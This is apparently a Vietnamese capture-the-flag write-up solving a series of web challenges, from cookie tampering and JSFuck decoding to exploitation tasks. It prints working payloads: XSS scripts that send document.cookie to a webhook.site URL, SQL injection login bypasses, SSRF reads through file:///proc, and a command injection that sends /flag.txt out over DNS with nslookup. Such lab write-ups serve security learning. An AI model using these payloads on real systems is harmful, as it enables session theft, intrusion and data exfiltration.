Cookie Hân Hoan season 1
Web-basic
1.Hân Hoan
Vào trang web, ta thấy có 1 form đăng nhập. Đăng nhập bằng 1 tài khoản bất kì, kết quả trả về là “You are not CookieHanHoan!”  Chỉnh sửa cookie ở phần httprequest header ta có được flag 
2.Header 401
Từ tên challenge, mình đoán rằng bài này thuộc dạng authentication, status 401 chính là Unauthorized lúc người dùng xác thực sai thông tin.
Xem source HTML, mình thấy 1 chuỗi thông tin được comment lại
<!--
Basic Authentication Credential: gaconlonton/cookiehanhoan
→
Ta sẽ dùng thông tin này để xác thực với syntax như sau
Authorization: Basic base64(user:pass)
base64(gaconlonton:cookiehanhoan) ==> Z2Fjb25sb250b246Y29va2llaGFuaG9hbg==
Gởi request lên bằng method POST

3. JS B**p B**p
View-source HTML, có 4 file script được include vào 
Vào xem mã nguồn của 4 file này, ta thấy rằng chỉ toàn là những kí tự +,[,],!, Search gg mình biết được đây là 1 dạng jsfuck.
Mình tìm cách decode jsfuck trên google và thấy 1 trang khá là hay : Decoder-JSFUCK
Okay, bây giờ ta sẽ sử dụng tool trên để decode hết 4 file script này:
// 1.js
function verifyUsername(username) { if (username != "cookiehanhoan") { return false } return true }
// 2.js
function reverseString(str) { if (str === "") { return "" } else { return reverseString(str.substr(1)) + str.charAt(0)} }
// 3.js
function verifyPassword(password) { if (reverseString(password) != "dr0Wss@p3rucreSr3pus") { return false } return true }
// 4.js
function verifyRole(role) {
if (role.charCodeAt(0) != 64) {
return false;
}
if ((role.charCodeAt(1) + role.charCodeAt(2) != 209) && (role.charCodeAt(2) - role.charCodeAt(1) != 9)) {
return false
}
if ((role.charCodeAt(3).toString() + role.charCodeAt(4).toString() != "10578") && (role.charCodeAt(3) - role.charCodeAt(4) != 27)) {
return false
}
return true
}
Từ:
- 1.js, ta biết được username ta cần nhập là cookiehanhoan
- 2.js, Hàm đảo ngược kí tự trong chuỗi
- 3.js, Đảo ngược kí tự của password ra chuỗi dr0Wss@p3rucreSr3pus
- Chuỗi cần nhập sẽ là reverseString(“dr0Wss@p3rucreSr3pus”)
- password = sup3rSercur3p@ssW0rd
- 4.js, Hàm verifyRole có tác dụng kiểm tra các kí tự của role, theo quy tắc:
- Ở đây, mình sẽ biểu diễn chuỗi string theo kiểu array cho dễ hiểu
- Mã Ascii của kí tự đầu tiên = 64 → role[0] = ‘@’
- Ascii(role[1]) + Ascii(role[2]) = 209
- Ascii(role[2]) – Ascii(role[1]) = 9
- Ở đây, ta giả sử kí tự 1 là x1, kí tự 2 là x2:
- ta có x1 + x2 = 209 và x2 – x1 = 9
- Giải phương trình ta có được x1= 100 và x2 = 109
- role[1] = ‘d’, role[2] = ‘m’
- Chuỗi (Ascii(role[3]) + Ascii(role[4])) = “10578”, Ascii(role[3]) – Ascii(role[4]) = 27
- Từ điều trên ta có được role[3] = ‘i’, role[4] = ‘N’
Như vậy, dữ liệu mà ta cần nhập vào là:
username = cookiehanhoan
password = sup3rSercur3p@ssW0rd
role = @dmin
==> Flag{JAV-ascript_F*ck}
4. Impossible
Xem sourse HTML, ta thấy hàm checkPass được gọi khi ta nhấn vào button Submit
function checkPass()
{
var password = document.getElementById('password').value;
if (btoa(password.replace("cookiehanhoan", "")) == "Y29va2llaGFuaG9hbg==") {
window.setTimeout(function() {
window.location.assign('check.php?password=' + password);
}, 500);
}
}
Decode chuỗi base64 trên ta được password cookiehanhoan
Đoạn code ở trên không thay thế bằng đệ quy nên ta có thể double đoạn string như sau:
cookiecookiehanhoanhanhoan
Giải thích:
chữ cookiehanhoan sẽ được tìm thấy trong chuỗi và bị thay thế thành rỗng vì thế ta sẽ nhận được chuỗi còn lại cookiehanhoan.
cookiecookiehanhoanhanhoan ==> cookiehanhoan
==> Flag{Javascript_is_not_safe???}
5.Infinite Loop
Bài này liên lục redirect đến id khác nhau, ta dùng burpsuite để xem history response của request, ở request
?id=6 có chứa flag.

6.I am not a robot
Vào trang http://chal2.web.letspentest.org/robots.txt
User-agent: *
Allow: /fl@g1337_d240c789f29416e11a3084a7b50fade5.txt
Vào đường dẫn trên ta có flag
==> Flag{N0_B0T_@ll0w}
7.Gatling gun
Xem source HTML
==> Flag{Web_Sause_Delicious}
Web Explotation
1. XSS
Thử với <script>alert(1)</script> popup hiện ra cho thấy rằng đoạn javascript được thực thi khi.
Mình dùng payload xss sau để lấy được cookie của admin bot thông qua webhook. Webhook có thể hiểu là dịch vụ thứ 3 nơi nhận các gói tin từ http, có rất nhiều dịch vụ webhook online miễn phí, các bạn có thể tìm trên google. Ở đây mình dùng https://webhook.site/
<script>
fetch('https://webhook.site/1b653ea8-7512-4d47-b459-071f20ef5152?c=' + document.cookie)
</script>
Xem request nhận được từ webhook, ta có được flag

==> FLAG{5b7eca261028a4042fde4e3f45dec294}
Do quá nhiều request khiến admin bot bị quá tải nên đợi khá lâu để có được flag.
2. XSS Filter
Giống ý tưởng bài trên nhưng để ý rằng server thêm CSP (Content Security Policy)
default-src 'self'; script-src 'nonce-matuhn' 'strict-dynamic'; style-src 'unsafe-inline'
Ta có thể hiểu là nonce-xxxxxxxx có nghĩa là chỉ cho phép tag script nào match chính xác thì mới được phép thực thi
<script nonce="matuhn">
fetch(‘https://webhook.site/1b653ea8-7512-4d47-b459-071f20ef5152?c=’ + document.cookie)
</script>
Đợi 1 lúc. Xem request nhận được từ webhook, ta sẽ có được flag.
3. Ét Quy Eo
Bài này thuộc loại sql injection authentication. Ta có thể dùng payload sau:
xxx' or 1=1 --
Đoạn query sẽ thực hiện trông như thế này:
select * from users where username='xxx' or 1=1-- and password=''
Vì 1=1 trả về true và đoạn sau dấu – sẽ bị comment
nên ta có thể hiểu câu lệnh query như sau:
select * from users where username=true
Kết quả trả về:
(1, 'lil uzi vert', 'is_admin', 'RmxhZ3tGcjMzX1N0eWwzfQ==')
decode đoạn base64 ta được flag
==> flag = Flag{Fr33_Styl3}
4. SQL Filter
Bài này đã filter chữ or và dấu cách, nhưng mình vẫn có thể bypass được bằng cách dùng oR :)) (vì câu lệnh sql chữ thường hay in hoa đều được thực thi )
Thay vì 1=1 ta có thể dùng (1)
payload : xxx'oR(1)--
(1, ‘lil uzi vert’, ‘is_admin’, ‘RmxhZ3tHcjMzdDFuR30=')
==> flag = Flag{Gr33t1nG}
5. Misconfiguration
Bài này flag được chia làm 3 phần.
Dùng tool gobuster với wordlist common.txt ta có 2 đường dẫn là:
.htaccess → part 1: Flag{1b283f0725
web.config → part 2: d536a0f217d89
Trong web-config, ở tag <deny> ta thấy 1 đường dẫn đến file backup-ddmmyy.bak
Sau khi download file này về, mình dùng command file trong linux để xác định loại file
$ file backup-ddmmyy.bak
backup-ddmmyy.bak: Zip archive data, at least v2.0 to extract
$ unzip a.zip -d .
Archive: a.zip
inflating: ./part3.txt
$ cat part3.txt
part 3 of the flag : caca7b183}
==> flag = Flag{1b283f0725d536a0f217d89caca7b183}
6. Paparazzi
Đây là 1 service có chức năng truy cập vào url ta nhập vào và chụp lại màn hình.
Dạng này thuộc loại SSRF, ta có thể fuzz nhanh với wrapper file:///

file:///proc/

Search google một hồi mình biết được rằng ta có thể lấy thông tin từ thư mục hiện hành thông qua /proc/{id}/cwd
file:///proc/1/cwd

Oh có 1 thư mục có tên lạ, mình vào thư mục này thì có 1 file flag.txt

file:///proc/1/cwd/Th1s_1s_sEcreT_pAth_c4n_Gu3sss_17831278392131/flag.txt

7.Gatling gun
Đầu tiên mình kiếm đến đường github theo yêu cầu của phần mô tả của challenge: https://github.com/cookiehanhoan/HoangTuEch
Từ đây ta có được 3 wordlist : id, password, username
Ở đây, mình dùng extension burp intruder để bruteforce, mình thiết lập loại tấn công là Cluster bomb và set 3 payload tương ứng với 3 tham số truyền vào.
 
Ta cài đặt filter với option Negative search, để filter những request không có kí tự FLAG{Not_True}.
 
8. The maze runner
Bài này cho ta rất nhiều directory, mình dùng tool ZAP để fuzz hết những directory này, ta có được 4 fake flag và 1 flag thật

9. ID’OR1=1
Tên đề bài khiến mình ăn ngay cú lừa liên tưởng đến sql injection, khiến mình tốn rất nhiều thời gian =.=
Bài này chỉ đơn giản là bruteforce id, mình tiếp tục sử dụng burp intruder, nhận thấy rằng id=1337 có chứa flag
{"Age":18,"Email":"Flag{61cb4a784e83b6109999af6f036b88bf}","First_Name":"Admin","Gender":"Female","Id":1337,"Last_Name":"Pro"}
10. A tiny hole
Xem qua source-code được cung cấp, mình nhận thấy những đặc điểm sau:
- Theo description từ challenge, server hạn chế kết nối ra bên ngoài -> loại bỏ ý tưởng reverse shell
- Server download nội dung từ 1 file và chạy file đó bằng bash command
- Server không filter ở đường dẫn thư mục -> lợi dụng được lỗ hổng LFI
- Server không có chỗ cho ta đọc output -> Data extrafiltation
- URL không filter -> lợi dụng được lỗ hổng SSRF
- Vì lỗi được parse ra ở file log -> lợi dụng điều này để trigger payload
Xem qua đoạn code, mục tiêu hướng đến của chúng ta ở bài này là control script_path để chạy đoạn lệnh ta mong muốn.

Có 1 vấn đề là Server hạn chế kết nối ra bên ngoài nên ta bắt buộc url_script phải là đường dẫn internal.
Để ý lại URL không hề filter, nên mình dùng SSRF qua protocol file:// để lấy nội dung từ file /etc/hosts.
Trong quá trình phân tích và đọc hiểu code, mình nghĩ ra một ý tưởng là sử dụng dấu xuống dòng (\r\n) ở script_name để gây ra lỗi và nội dung sẽ ghi vào file log, ta cùng xem đoạn query sau:

Và đây là kết quả khi chạy payload trên:

Magic chưa :v, vì tên file không đúng định dạng dẫn đến lỗi nên khi thực thi dòng này
command = subprocess.Popen(['bash', script_path], stderr=lf, stdout=lf, universal_newlines=True)
kết quả trả về từ process sẽ dẫn đến lỗi và ghi vào file log qua option stderr
Ok từ đây ta chỉ cần trigger đoạn trên bằng đoạn query thứ 2:

Và kết quả thu được:
File log2.txt:
dòng echo 123 đã được thực thi
Kết luận:

- Sau nhiều lần thử các loại protocol cuối cùng mình nhận thấy chỉ DNS phản hồi từ server thông qua câu lệnh nslookup.
- Theo kinh nghiệm của mình thì flag thường nằm ở root nên mình đoán luôn là /flag.txt
- Mặc dù DNS đã parse trong file log, nhưng Payload của mình không work nên mình dùng thêm dấu backtick để chắc rằng câu lệnh sẽ được thực hiện.
- Lưu ý rằng, mọi thứ trong dấu backtick sẽ luôn được thực hiện trước câu lệnh chính
Final payload:
request1:
command_log_file=log
&script_dir=toidihackdao
&script_name=%0A`nslookup $(cat $(echo Y2F0IC9mbGFnLnR4dA== | base64 -d)).qcpar0iw.requestrepo.com`%0A
&script_url=file:///etc/hosts
request2:
command_log_file=log2
&script_dir=toidihackdao
&script_name=hackisfun
&script_url=file:///src/logs/log.txt
Kết quả:

==> Flag{CookieWarrior_Please_Think_Out_Of_The_Box}